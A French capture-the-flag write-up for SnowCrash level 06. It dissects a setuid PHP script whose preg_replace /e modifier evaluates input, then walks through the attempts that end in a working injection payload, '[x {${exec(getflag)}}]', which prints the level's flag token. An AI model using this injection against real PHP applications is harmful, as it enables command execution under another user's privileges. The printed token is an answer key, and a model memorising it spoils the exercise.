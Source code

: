 # Level 06

Le répertoire de ce niveau contient un fichier php:

```php
#!/usr/bin/php
<?php
function y($m) {
    $m = preg_replace("/\./", " x ", $m);
    $m = preg_replace("/@/", " y", $m);
    return $m;
}

function x($y, $z) {
    $a = file_get_contents($y);
    $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
    $a = preg_replace("/\[/", "(", $a);
    $a = preg_replace("/\]/", ")", $a);
    return $a;
}

$r = x($argv[1], $argv[2]);
print $r;
?>
```

Dans ce même répertoire il y a un exécutable qui semble run ce code en avec l'user flag06.

`pgrep_replace` est une fonction de remplacement d'expression reguliere

```/(\[x (.*)\])/e```

Le `e` à la fin de cette expression correspond à la fonction `eval` et indique que le remplacement doit être traité comme du code php.

```re
(\[x (.*)\])
```
Ce pattern sert à match le pattern `[x ...]` et à extraire le `...`

```"y(\"\\2\")"```
C'est le string de remplacement, il va appeler la fonction `y` avec `\\2` qui est le 2eme groupe matché par le pattern précédent

On a donc commencé par simplement essayer de passer un string contenant getflag:

```sh
level06@SnowCrash:~$ echo "[x getflag]" >> /tmp/test
level06@SnowCrash:~$ ./level06 /tmp/test 
getflag
```
Fonctionne pas, ca affiche juste getflag


en php, on peut utiliser les backtick comme dans le level04 pour remplacer par le résultat 
```sh
level06@SnowCrash:~$ echo "[x `getflag`]" > /tmp/test
level06@SnowCrash:~$ ./level06 /tmp/test 
(x Check flag.Here is your token : 
Nope there is no token here for you sorry. Try again :))
```
Fonctionne pas non plus, ça a pas l'air de l'exécuter en tant que flag06

On peut utiliser la commande `exec` pour executer une commande shell en php (https://www.php.net/manual/en/function.exec.php), on utilise la [syntaxe de substitution de variables](https://brainbell.com/php/variable-substitution.html) et on arrive à récupérer le flag
```sh
level06@SnowCrash:~$ echo '[x {${exec(getflag)}}]' > /tmp/test
level06@SnowCrash:~$ ./level06 /tmp/test 
PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub in /home/user/level06/level06.php(4) : regexp code on line 1```